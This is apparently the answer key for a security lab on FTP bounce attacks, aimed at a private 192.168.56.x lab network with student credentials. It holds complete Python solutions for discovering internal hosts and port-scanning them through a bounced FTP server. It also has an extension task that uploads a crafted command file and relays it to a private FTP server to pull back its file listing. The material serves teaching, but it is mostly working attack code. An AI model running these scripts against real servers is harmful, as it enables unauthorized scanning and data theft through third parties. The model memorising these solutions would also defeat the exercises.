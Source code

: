 .. _ref_answers:

============================================================
Answers
============================================================

------------------------------------------------------------
Exercise 1
------------------------------------------------------------

These answers are largely down to your exact network setup.

------------------------------------------------------------
Exercise 2
------------------------------------------------------------

************************************************************
Task 2: Discover hosts on the internal network
************************************************************

::

    import sys, os
    from cp_ftp import FTP

    # List of discovered host IP addresses.
    hosts = []

    for last_octet in range(101, 132):
      # Make a new FTP connection each time for simplicity.
      ftp = FTP("192.168.56.101", debug=False)
      ftp.send_login_commands("student", "golyeeHug6")

      host = "192.168.56.%d" % last_octet
      target_address = (host, 22)

      ################################################################################
      # STUDENT TODO 1: Send a PORT command for target_address. Then send data to it.
      # Hint: the provided examples/remote_port.py will be useful.
      # Important: if a port is open then run:
      #   hosts_ports[host].append(port)
      ################################################################################

      # Send a PORT command pointing to port 22 on this target.
      ftp.send_port_command(target_address)
      # If the PORT command was somehow invalid, skip this target.
      response = ftp.recv_response()
      if response.code != 200:
        print(response)
        continue

      # Try sending file LIST output to target on port 22.
      ftp.send_command("LIST")
      response = ftp.recv_response()
      print(target_address, response)

      # Success is indicated by this response:
      #   150 Opening ASCII mode data connection for file list
      if response.code == 150:
        hosts.append(target_address)

      ftp.close()

    print(hosts)

************************************************************
Task 3: Port scan discovered hosts
************************************************************

::

    import sys, os
    from cp_ftp import FTP

    # List of discovered host IP addresses.
    hosts = ["192.168.56.102", "192.168.56.103"]
    hosts_ports = {}

    for host in hosts:
      hosts_ports[host] = []

      for port in range(1, 1024):
        # Make a new FTP connection each time for simplicity.
        ftp = FTP("192.168.56.101", debug=False)
        ftp.send_login_commands("student", "golyeeHug6")

        target_address = (host, port)

        ################################################################################
        # STUDENT TODO 1: Send a PORT command for target_address. Then send data to it.
        # Hint: the provided examples/remote_port.py will be useful.
        # Important: if a port is open then run:
        #   hosts_ports[host].append(port)
        ################################################################################

        # Send a PORT command pointing to target port on target host.
        ftp.send_port_command(target_address)
        # If the PORT command was somehow invalid, skip this host.
        response = ftp.recv_response()
        if response.code != 200:
          print(response)
          continue

        # Try sending file LIST output to target on chosen port.
        ftp.send_command("LIST")
        response = ftp.recv_response()
        print(target_address, response)

        # Success is indicated by this response:
        #   150 Opening ASCII mode data connection for file list
        if response.code == 150:
          hosts_ports[host].append(port)

        ftp.close()

    for host in hosts:
      print("%s has ports %s open." % (host, ", ".join(map(str, hosts_ports[host]))))

************************************************************
Extension Task: Exfiltrate data from a private FTP server
************************************************************

::

    import sys, os
    from cp_ftp import FTP

    ftp = FTP("192.168.56.101", debug=True)
    ftp.send_login_commands("student", "golyeeHug6")

    ################################################################################
    # Build a script to get a LIST of files on the private server.
    ################################################################################

    # 1. Commands to log in.
    login_commands = ftp.get_login_commands("student", "golyeeHug6")

    # 2. A PORT command for how to get data back to this script from the private server.
    exfiltration_data_address = ftp.new_data_address()
    port_command = ftp.get_port_command(exfiltration_data_address)

    # 3. Build up the list of commands.
    exploit_commands = []
    exploit_commands.append(login_commands)
    exploit_commands.append(port_command)
    exploit_commands.append("LIST")
    exploit_commands.append("QUIT")

    # 4. Put the commands together. Pad with 1M nullbytes to ensure socket stays open long enough.
    exploit_file = "exploit.txt"
    file_contents = "\r\n".join(exploit_commands) + "\0" * 1000000

    ################################################################################
    # STUDENT TODO 1: Upload the script to the server.
    # Hint: the provided examples/stor.py will be useful.
    ################################################################################

    # 1. Set the PORT to send data upon.
    data_address = ftp.new_data_address()
    ftp.send_port_command(data_address)
    response = ftp.recv_response()
    if response.code != 200:
      print(response)
      sys.exit(1)

    # 2. Command to upload the exploit commands to a file.
    ftp.send_command("STOR %s" % exploit_file)
    response = ftp.recv_response()
    if response.code != 150:
      print(response)
      sys.exit(1)

    # 3. Send the exploit commands along the data connection.
    ftp.send_data(file_contents)
    response = ftp.recv_response()
    if response.code != 226:
      print(response)
      sys.exit(1)

    ################################################################################
    # STUDENT TODO 2: Have the server send the script to the private server.
    # Hint: the provided examples/remote_port.py will be useful.
    # Hint: unlike in that example, we *are* recieving data inbetween the two data
    #       transfer status responses.
    # Hint: you need to get data from the same port as exfiltration_data_address.
    #       ftp.new_data_address(port=exfiltration_data_address[1])
    #       print("EXFILTRATED DATA: %s" % ftp.recv_data())
    ################################################################################

    # 1. Tell server it can open Data Connection to private server's FTP Command port.
    target_address = ("192.168.56.103", 21)
    ftp.send_port_command(target_address)
    response = ftp.recv_response()
    if response.code != 200:
      print(response)
      sys.exit(1)

    # 2. Tell server to open data and connection and send exploit commands to private server.
    ftp.send_command("RETR %s" % exploit_file)
    response = ftp.recv_response()
    if response.code != 150:
      print(response)
      sys.exit(1)

    # 3. Rebind to the exfilitration port chosen earlier and read LIST of private files from it.
    ftp.new_data_address(port=exfiltration_data_address[1])
    print("********* [EXFILTRATED DATA BEGINS] *********")
    ftp.recv_data()
    print("********* [EXFILTRATED DATA ENDS] *********")

    # 4. Final success/failure mode for sending exploit commands to private server.
    response = ftp.recv_response()
    if response.code != 226:
      print(response)
      sys.exit(1)

    ftp.close()

